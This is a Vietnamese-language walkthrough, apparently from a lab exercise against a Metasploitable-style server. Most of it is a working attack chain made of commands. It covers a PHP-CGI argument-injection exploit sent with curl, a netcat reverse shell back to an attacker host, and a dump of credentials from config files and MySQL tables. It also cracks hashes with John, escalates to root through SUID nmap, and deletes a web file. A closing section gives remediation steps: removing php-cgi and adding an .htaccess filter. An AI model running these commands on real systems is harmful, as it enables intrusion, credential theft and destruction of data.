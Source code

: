 ## Tùy chọn lệnh
```
curl -s -X POST "http://192.168.80.10/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" -d "<?php system('whoami'); die(); ?>" --connect-timeout 10
```

## Chím Shell phiên bản ngoài đời thực

-Lắng nghe:
```
nc -lvnp 4444
```

- Thự hiện shell ngược:
```
curl -s -X POST "http://192.168.80.10/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" -d "<?php system('nc 192.168.80.2 4444 -e /bin/sh'); die(); ?>" --connect-timeout 10
```

- Chím shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

- 📁 4. Khám phá thư mục home, có thể chứa thông tin nhạy cảm [*]
```
cd /home
ls -la
```

- 🔑 5. Tìm kiếm thông tin nhạy cảm: mật khẩu, private key, cấu hình database
```
find /var/www -type f -iname "*config*.php"
```

- 🔍 Đặc biệt chú ý các file trong dvwa, mutillidae, phpMyAdmin, tikiwiki: [*]
cat /var/www/dvwa/config/config.inc.php

```
cat /var/www/dvwa/config/config.inc.php
```

- 🔄 7. Nếu có thông tin đăng nhập MySQL, thử đăng nhập: [*]
```
mysql -u root -p
```

```
show databases;
```

```
USE dvwa;
SHOW TABLES;
SELECT * FROM users;
```

```
USE mysql;
SELECT user, host, password FROM user;
```

```
USE owasp10;
SHOW TABLES;
SELECT * FROM accounts;
```


```
exit
```
## Crack password

- Xóa bộ nhớ đệm trước đó
```
rm ~/.john/john.pot
```

```
john --format=<format> hashes.txt
```

- Crack hash
```
john --wordlist=rockyou.txt --format=raw-md5 hash.txt
```

- Show 
```
john --show --format=raw-md5 hash.txt
```


## Test đăng nhập

- Xem người dùng trong hệ thống
```
cat /etc/passwd
```

## Thăng Quyền

| Thành phần    | Giải thích dễ hiểu                                                                                                                                            |
| ------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `find`        | Lệnh dùng để **tìm kiếm file/thư mục**.                                                                                                                       |
| `/`           | Bắt đầu tìm từ **gốc hệ thống** (toàn bộ máy – từ `/` trở đi).                                                                                                |
| `-perm -4000` | Tìm file có quyền **SUID (Set User ID)** được bật.<br>📌 "4000" là mã quyền dạng **octal** đại diện cho SUID.<br>✅ `-4000` nghĩa là **phải có đúng bit SUID** |
| `-type f`     | Chỉ tìm **file thông thường** (không tìm thư mục, symlink, v.v).                                                                                              |
| `2>/dev/null` | **Ẩn lỗi** (ví dụ lỗi "Permission denied" khi không đọc được thư mục nào đó).                                                                                 |


```
find / -perm -4000 -type f 2>/dev/null
```

```
/usr/bin/nmap --interactive
```

```
!sh
```

```
whoami
```

> - Bạn là người thường (www-data), muốn vào phòng VIP.
> - Có một người khác được cấp quyền root tên là nmap(/usr/bin/nmap)
> - Khi bạn nhờ robot làm giúp ("--interactive")
> - Bạn bảo: “Mở cửa phòng VIP giúp tôi nhé!” (!sh)
> - Robot dùng quyền của nó để mở cửa, vậy là bạn vào được(chạy dưới quyền root)!

## Tạo thư mục
```
mkdir haidang
```


## xóa file
```
rm index.php
```






# 🛡️ 4. Đề xuất khắc phục
## Xóa CGI
```
find / -name "php-cgi" 2>/dev/null
```

```
sudo rm -f /usr/bin/php-cgi
```

```
sudo rm /etc/alternatives/php-cgi
```

```
sudo rm -f /usr/lib/cgi-bin/php5
sudo rm -f /usr/lib/cgi-bin/php
```

```
sudo /etc/init.d/apache2 restart
```
### Cài mod_php
```
sudo apt-get update
sudo apt-get install libapache2-mod-php5
```

```
sudo a2enmod php5
```

```
sudo /etc/init.d/apache2 restart
```


## Lọc Tham Số Nguy Hiểm
> `-d` `-n` `-s` ...

```
export TERM=xterm
ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedAlgorithms=+ssh-rsa msfadmin@192.168.80.10
```


```
cd /var/www
sudo nano .htaccess
```

- Dán nội dung sau:
```
<IfModule mod_rewrite.c>
  RewriteEngine On
  RewriteCond %{QUERY_STRING} ^(%2d|-)[^=]+$ [NC]
  RewriteRule ^.* - [F,L]
</IfModule>
```

- reload
```
sudo a2enmod rewrite
sudo /etc/init.d/apache2 force-reload
```

---

- 🛠 Cho phép Apache sử dụng .htaccess
```
sudo nano /etc/apache2/sites-available/default
```

- Tìm:
```
<Directory /var/www/>
    Options Indexes FollowSymLinks MultiViews
    AllowOverride None
    Order allow,deny
    allow from all
</Directory>
```

- ➡ Sửa dòng AllowOverride None thành:
```
AllowOverride All
```

- AllowOverride All

```
sudo /etc/init.d/apache2 restart
```

---

```
sudo ifconfig eth0 192.168.80.10 netmask 255.255.255.0 up 
```
